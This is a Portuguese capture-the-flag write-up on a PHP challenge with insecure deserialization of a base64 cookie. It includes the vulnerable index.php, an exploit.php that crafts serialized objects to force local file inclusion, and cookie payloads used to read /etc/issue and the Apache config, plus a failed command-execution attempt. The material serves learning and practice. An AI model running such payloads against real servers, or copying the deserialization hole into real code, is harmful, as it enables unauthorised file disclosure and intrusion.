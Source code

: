 # Is this serious

Desafio sem descrição.

**Desafio não resolvido.**

## Assuntos relacionados ao desafio

- Insecure Deserialization
- LFI
- Linux
- PHP
- RCE

## Solução

O desafio disponibiliza um arquivo para download, o [files.zip](files.zip). Ao
descompactar o arquivo zip, é disponibilizado o arquivo `index.php`:

```php
<?php

class ZupCtf {
    public $param;
    public $file;

    public function __construct() {
        $this->init();
    }

    public function init() {
        $this->file = ""; // for __destruct()
        $this->param = $_GET['name']; // for greet()
    }

    public function greet() {
        return "Hello, $this->param!";
    }

    public function __destruct() {
        if (!empty($this->file)) {
            include($this->file);
        }
    }
}

if (empty($_COOKIE['greeting'])) {
    if (empty($_GET['name'])) {
        $_GET['name'] = "Guest";
        $page = new ZupCtf;
        die($page->greet());
    } else {
        $page = new ZupCtf;
        die($page->greet());
    }    
} else {
    // Debug-only purposes
    unserialize(base64_decode($_COOKIE['greeting']));
}

?>
```

Analisando o códido, é possível ver que quando é informado o cookie `greeting`,
entra no else e faz a desserialização do que for passado em Base64 no cookie.
Utilizando esse código como base, é possível criar um exploit para gerar o
cabeçalho da requisição e apenas informar esse cabeçalho no
[Burp Suite][burp-suite]:

```php
// exploit.php

<?php

class ZupCtf {
    public $param;
    public $file;

    public function __construct() {
        $this->init();
    }

    public function init() {
        $this->file = ""; // for __destruct()
        $this->param = $_GET['name']; // for greet()
    }

    public function greet() {
        return "Hello, $this->param!";
    }

    public function __destruct() {
        if (!empty($this->file)) {
            include($this->file);
        }
    }
}

$_GET['name'] = "Guest";
$page = new ZupCtf;
$page->file = '/caminho/para/algum/arquivo';

$b64 = base64_encode(serialize($page));

echo('Cookie: greeting=' . $b64 . "\n\n\n");

?>
```

Abrindo o Burp e acessando a aba "Proxy":

![Burp 01](burp_01.png)

Desabilitando a interceptação das requisições, a gente precisa apenas fazer uma
requisição e usar o log:

![Burp 02](burp_02.png)

Abrindo o navegador:

![Burp 03](burp_03.png)

![Burp 04](burp_04.png)

Utilizando a guia anônima para não ter problema com cache:

![Burp 05](burp_05.png)

Acessei o desafio, fechei o navegador e passei para a aba "HTTP history":

![Burp 06](burp_06.png)

Enviei a requisição para o "Repeater":

![Burp 07](burp_07.png)

![Burp 08](burp_08.png)

Para o primeiro exploit, utilizei o arquivo "/etc/issue", que informa qual a
distribuição Linux utilizada no servidor:

```
$ php exploit.php

Cookie: greeting=Tzo2OiJadXBDdGYiOjI6e3M6NToicGFyYW0iO3M6NToiR3Vlc3QiO3M6NDoiZmlsZSI7czoxMDoiL2V0Yy9pc3N1ZSI7fQ==
```

![Burp 09](burp_09.png)

O servidor é um Alpine Linux 3.10 Beta, procurei qual o caminho da configuração
do Apache no Alpine, pois muda de distribuição para distribuição, o caminho é
/etc/apache2/httpd.conf, utilizado esse caminho no exploit:

```
$ php exploit.php

Cookie: greeting=Tzo2OiJadXBDdGYiOjI6e3M6NToicGFyYW0iO3M6NToiR3Vlc3QiO3M6NDoiZmlsZSI7czoyMzoiL2V0Yy9hcGFjaGUyL2h0dHBkLmNvbmYiO30=
```

![Burp 10](burp_10.png)

Lendo o arquivo de configuração, foi possível encontrar o caminho onde está
instalado a aplicação, está em /app/public. Após isso tentei executar um comando
no servidor (RCE), passando para o atributo "file" do exploit o comando:

```php
$page->file = shell_exec('ls / > /tmp/ls.txt && echo -n /tmp/ls.txt');
```

```
$ php exploit.php 

Cookie: greeting=Tzo2OiJadXBDdGYiOjI6e3M6NToicGFyYW0iO3M6NToiR3Vlc3QiO3M6NDoiZmlsZSI7czoxMToiL3RtcC9scy50eHQiO30=
```

![Burp 11](burp_11.png)

Não retornou o conteúdo do ls, tentei executar outros comandos também, abrir
shell reversa mas não funcionou, acho que o outbound da máquina estava
desabilitado.

[burp-suite]: https://portswigger.net/burp/communitydownload
